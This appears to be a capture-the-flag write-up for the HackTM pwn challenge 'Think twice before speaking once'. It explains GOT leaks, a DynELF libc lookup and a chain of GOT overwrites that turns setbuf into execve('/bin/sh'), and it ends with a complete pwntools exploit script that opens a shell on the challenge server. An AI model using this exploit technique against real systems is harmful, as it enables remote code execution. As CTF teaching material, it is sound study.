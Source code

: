 ```yaml
---
layout: post
category: Pwn
title: HackTM - Think twice before speaking once
tags: 
    - kowu
---
```


A "kind of" blind pwning challenge, non-pic binary was provided (but not unusable out of the box because of some linker foo?).


[Download](/assets/bin/hacktm_think_speak)

```
user@KARCH ~ % nc 138.68.67.161 20004
 [*] Wise man said: 'Think twice before speaking once'
 [1] Think
 [2] Speak
 [3] Give Up
 >1
 [#] Enter Where: 4194304
[ 
ELF ]
 [1] Think
 [2] Speak
 [3] Give Up
 >3
```

The basic functionality was, that one could leak memory as often as he wants. But a 8 byte-write is allowed only once.

# Resolving Functions

Let's start with leaking everything we need. First of all we obtain a pointer into libc by leaking from our own GOT.
Then we can let pwntools DynELF do the rest of the work. Done.

```python
libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000
d = DynELF(leakat, libcptr)
d.lookup('system')
```

# Unlimited Write

In the next step I crafted some unlimited writing primite. If we look at the implementation of the leaking functionality we can see that it is implemented using a write(stdout, myaddr, 8).

```c
sym.imp.printf(" [#] Enter Where: ");
sym.imp.fflush(_reloc.stdout);
sym.imp.__isoc99_scanf("%lu", &var_10h);
sym.imp.puts("[ \n");
sym.imp.write(1, var_10h, 8);
sym.imp.puts(" ]");
```

Now, if we overwrite the reloc.write with read, a leak request at myaddr will lead to the execution of read(stdout, myaddr, 8). Even though we are reading from stdout, it is effectively the same as stdin. And by using this we now have unlimited writes.

# RIP & RDI Control

In a final step I wanted to execute system("/bin/sh"). For getting RIP control I overwrote reloc.exit with an address of my choice. So exiting gives me RIP control, but RDI is not controllable at all (it is zero because of exit(0)).

If we look at the initialization routine of the binary we can see three calls to setbuf/setvbuf. And each of them dereferences a pointer from a controllable location (reloc.stdin/out/err) and uses it to call a controllable function with.

```c
void sym.init_proc(void)
{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setbuf(_reloc.stderr, 0);
    sym.imp.signal(0xe, sym.handler);
    sym.imp.alarm(0x3c);
    return;
}
```

closer look in asm:

```nasm
0x004008db      488b05be0720.  mov rax, qword [obj.stderr]
0x004008e2      be00000000     mov esi, 0
0x004008e7      4889c7         mov rdi, rax
0x004008ea      e801feffff     call sym.imp.setbuf
```

The Idea is to overwrite setbuf with system and modify reloc.stderr to be a pointer pointing to /bin/sh.
Stderr is never used inside the code, so nothing is going to crash.
The /bin/sh string is placed in some unused memory (e.g. just at the end of the reloc section).
If we have done this, we can now just call main or init_proc to get a shell. (At least I thought so, it crashed...)

# WTF

I don't know what was going on on the remote side, but to me it seemed like the env pointer was wrong? 
So when doing a system("/bin/sh") libc would try to resolve the environment variables, but it got a wrong pointer and it would crash.
Anyways, by calling execve directly this doesn't happen, because we would have to do the job of supplying argv and env pointers.
Supplying NULL is fine as well. And as lucky as we are, the second and third arguments are either NULL or some valid pointers. Shell.


```
from pwn import *

r = remote('138.68.67.161', 20004)


def leakat(addr):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    return r.recvn(8)


def writeto(addr, value):
    r.sendlineafter('>', '2')
    r.sendlineafter('Where:', str(addr))
    r.sendlineafter('What: ', str(value))


def xwrite(addr, value):
    r.sendlineafter('>', '1')
    r.sendlineafter('Where:', str(addr))
    r.recvuntil('[ \n')
    r.send(struct.pack('<Q', value))


def sploit():
    libcptr = struct.unpack('<Q', leakat(0x00601018))[0] - 0x69000

    # resolve addresses. Use execve instead of system because of fucked up env ptr?
    d = DynELF(leakat, libcptr)
    addr_execve = d.lookup('execve')
    addr_read = d.lookup('read')

    # read is now write for unlimited write.
    writeto(0x00601020, addr_read)

    # place /bin/sh in unused mem, let reloc.stderr point there
    xwrite(0x00601100, struct.unpack('<Q', b'/bin/sh\0')[0])
    xwrite(0x006010a0, 0x00601100)

    # setbuf is now execve
    xwrite(0x00601028, addr_execve)

    # exit is now main
    xwrite(0x00601068, 0x00400930)

    # exit to main -> init_proc -> execve("/bin/sh", 0, ?)
    r.sendlineafter('>', '3')
    r.interactive()


if __name__ == '__main__':
    sploit()
```
